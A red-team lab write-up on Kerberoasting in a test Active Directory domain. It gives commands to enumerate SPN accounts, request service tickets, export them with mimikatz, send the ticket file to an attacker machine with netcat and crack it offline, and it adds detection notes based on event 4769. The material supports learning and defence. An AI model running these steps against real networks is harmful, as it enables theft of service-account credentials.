







# T1208: Kerberoasting

This lab explores an attack that allows any domain user to request kerberos tickets from TGS that are encrypted with NTLM hash of the plaintext password of a domain user account that is used as a service account \(for example for running an IIS service\) and crack them offline avoiding lockouts.

## Execution

Note the vulnerable domain member - a user account with `servicePrincipalName` attribute set \(important piece for kerberoasting - only user accounts with that property set are most likely susceptible to kerberoasting\):


Attacker setting up an nc listener to receive a hash for cracking:



```csharp
nc -lvp 443 > kerberoast.bin
```



### Extracting the Ticket

Attacker enumerating user accounts with `serverPrincipalName` set:



```csharp
Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
```





Using only built-in powershell, we can extract the susceptible accounts with:

```csharp
get-adobject | Where-Object {$_.serviceprincipalname -ne $null -and $_.distinguishedname -like "*CN=Users*" -and $_.cn -ne "krbtgt"}
```



It would have been better to use the following command provided by [Sean Metcalf](https://adsecurity.org/?p=2293) purely because of the `-filter` usage \(quicker than `select-object`\), but it did not work for me:

```csharp
get-adobject -filter {serviceprincipalname -like “*sql*”} -prop serviceprincipalname
```

Additionally, user accounts with SPN set could be extracted with a native windows binary:

```text
 setspn -T offense -Q */*
```


Attacker requesting a kerberos ticker for a user account with `servicePrincipalName` set to `HTTP/dc-mantvydas.offense.local`- it gets stored in the memory:



```csharp
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/dc-mantvydas.offense.local"
```




Using mimikatz, the attacker extracts kerberos ticket from the memory and exports it to a file for cracking:



```csharp
mimikatz # kerberos::list /export
```




Attacker sends the exported service ticket to attacking machine for offline cracking:



```csharp
nc 10.0.0.5 443 < C:\tools\mimikatz\x64\2-40a10000-spotless@HTTP~dc-mantvydas.offense.local-OFFENSE.LOCAL.kirbi
```



### Cracking the Ticket

Attacker brute forces the password of the service ticket:



```csharp
python2 tgsrepcrack.py pwd kerberoast.bin
```




## Observations

Below is a security log `4769` showing service access being requested:


If you see `Add-event -AssemblyName SystemIdentityModel` \(from advanced Powershell logging\) followed by a windows security event `4769` immediately after that, you may be looking at an old school Kerberoasting:, especially if ticket encryption type has a value `0x17` \(23 decimal, meaning it's `RC4` encrypted\):


### Traffic

Below is the screenshot showing a request being sent to the `Ticket Granting Service` \(TGS\) for the service with a servicePrincipalName `HTTP/dc-mantvydas.offense.local` :


Below is the response from the TGS for the user `spotless` \(we initiated this attack from offense\spotless\) which contains the encrypted \(RC4\) kerberos ticket \(server part\) to access the `HTTP/dc-mantvydas.offense.local` service. It is the same ticket we cracked earlier with [tgsrepcrack.py](./#cracking-the-ticket):



Out of curiosity, let's decrypt the kerberos ticket since we have the password the ticket was encrypted with.

Creating a kerberos keytab file for use in wireshark:



```bash
root@~# ktutil 
ktutil:  add_entry -password -p HTTP/iis_svc@dc-mantvydas.offense.local -k 1 -e arcfour-hmac-md5
Password for HTTP/iis_svc@dc-mantvydas.offense.local: 
ktutil:  wkt /root/tools/iis.keytab
```




Adding the keytab to wireshark:



Note how the ticket's previously encrypted piece is now in plain text and we can see information pertinent to the requested ticket for a service `HTTP/dc-mantvydas.offense.local` :


### tgsrepcrack.py

Looking inside the code and adding a couple of print statements in key areas of the script, we can see that the password from the dictionary \(`Passw0rd`\) initially gets converted into an NTLM \(`K0`\) hash, then another key `K1` is derived from the initial hash and a message type, yet another key `K2` is derived from K1 and an MD5 digest of the encrypted data. Key `K2` is the actual key used to decrypt the encrypted ticket data:





I did not have to, but I also used an online RC4 decryptor tool to confirm the above findings:





[Tim Medin - Attacking Kerberos: Kicking the Guard Dog of Hades](https://files.sans.org/summit/hackfest2014/PDFs/Kicking%20the%20Guard%20Dog%20of%20Hades%20-%20Attacking%20Microsoft%20Kerberos%20%20-%20Tim%20Medin%281%29.pdf)





{% embed data="{\"url\":\"https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/\",\"type\":\"link\",\"title\":\"Extracting Service Account Passwords with Kerberoasting \| Insider Threat\",\"description\":\"Kerberoasting is effective for extracting service account credentials from Active Directory without needing elevated rights or causing domain traffic.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://blog.stealthbits.com/wp-content/uploads/2016/06/cropped-Logo\_STEALTHbits\_Orb\_Blue\_250x250-192x192.png\",\"width\":192,\"height\":192,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://blog.stealthbits.com/wp-content/uploads/2017/05/Blog2-banner-Extract-Service-Account-Passwords-Kerberoasting1024x326.jpg\",\"width\":1024,\"height\":326,\"aspectRatio\":0.318359375}}" %}



{% embed data="{\"url\":\"https://www.youtube.com/watch?v=nJSMJyRNvlM&feature=youtu.be&t=16\",\"type\":\"video\",\"title\":\"111 Attacking EvilCorp Anatomy of a Corporate Hack Sean Metcalf Will Schroeder\",\"description\":\"These are the videos from Derbycon 2016:\\nhttp://www.irongeek.com/i.php?page=videos/derbycon6/mainlist\",\"icon\":{\"type\":\"icon\",\"url\":\"https://www.youtube.com/yts/img/favicon\_144-vfliLAfaB.png\",\"width\":144,\"height\":144,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://i.ytimg.com/vi/nJSMJyRNvlM/maxresdefault.jpg\",\"width\":1280,\"height\":720,\"aspectRatio\":0.5625},\"embed\":{\"type\":\"player\",\"url\":\"https://www.youtube.com/embed/nJSMJyRNvlM?rel=0&showinfo=0&start=16\",\"html\":\"<div style=\\\"left: 0; width: 100%; height: 0; position: relative; padding-bottom: 56.2493%;\\\"><iframe src=\\\"https://www.youtube.com/embed/nJSMJyRNvlM?rel=0&amp;showinfo=0&amp;start=16\\\" style=\\\"border: 0; top: 0; left: 0; width: 100%; height: 100%; position: absolute;\\\" allowfullscreen scrolling=\\\"no\\\"></iframe></div>\",\"aspectRatio\":1.7778}}" %}

{% embed data="{\"url\":\"http://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/\",\"type\":\"link\",\"title\":\"Kerberoasting Without Mimikatz\",\"description\":\"Just about two years ago, Tim Medin presented a new attack technique he christened “Kerberoasting”. While we didn’t realize the full implications of this at the time of release, t…\",\"icon\":{\"type\":\"icon\",\"url\":\"http://www.harmj0y.net/blog/wp-content/uploads/2017/05/cropped-specter-192x192.png\",\"width\":192,\"height\":192,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"http://www.harmj0y.net/blog/wp-content/uploads/2016/10/invoke\_kerberoast\_empire-1024x520.png\",\"width\":640,\"height\":325,\"aspectRatio\":0.5078125}}" %}

{% embed data="{\"url\":\"https://pentestlab.blog/2018/06/12/kerberoast/\",\"type\":\"link\",\"title\":\"Kerberoast\",\"description\":\"The process of cracking Kerberos service tickets and rewriting them in order to gain access to the targeted service is called Kerberoast. This is very common attack in red team engagements since it…\",\"icon\":{\"type\":\"icon\",\"url\":\"https://s1.wp.com/i/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://pentestlab.files.wordpress.com/2018/06/autokerberoast-service-ticket-hashes-of-particular-domain-and-group.png\",\"width\":724,\"height\":385,\"aspectRatio\":0.5317679558011049}}" %}

{% embed data="{\"url\":\"https://blog.xpnsec.com/kerberos-attacks-part-1/\",\"type\":\"link\",\"title\":\"Kerberos AD Attacks - Kerberoasting\",\"description\":\"Recently I\'ve been trying to make sure that my redteam knowledge is up to date, exploring many of the advancements in Active Directory Kerberos attacks... and there have been quite a few! I finally found some free time this week to roll up my sleeves and dig into the internals\",\"icon\":{\"type\":\"icon\",\"url\":\"https://blog.xpnsec.com/assets/favicon/android-icon-192x192.png?v=94d6be4395\",\"width\":192,\"height\":192,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://blog.xpnsec.com/content/images/2017/09/cerberos-1.jpg\",\"width\":615,\"height\":539,\"aspectRatio\":0.8764227642276423}}" %}

{% embed data="{\"url\":\"https://pentestlab.blog/2018/06/12/kerberoast/\",\"type\":\"link\",\"title\":\"Kerberoast\",\"description\":\"The process of cracking Kerberos service tickets and rewriting them in order to gain access to the targeted service is called Kerberoast. This is very common attack in red team engagements since it…\",\"icon\":{\"type\":\"icon\",\"url\":\"https://s1.wp.com/i/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://pentestlab.files.wordpress.com/2018/06/autokerberoast-service-ticket-hashes-of-particular-domain-and-group.png\",\"width\":724,\"height\":385,\"aspectRatio\":0.5317679558011049}}" %}





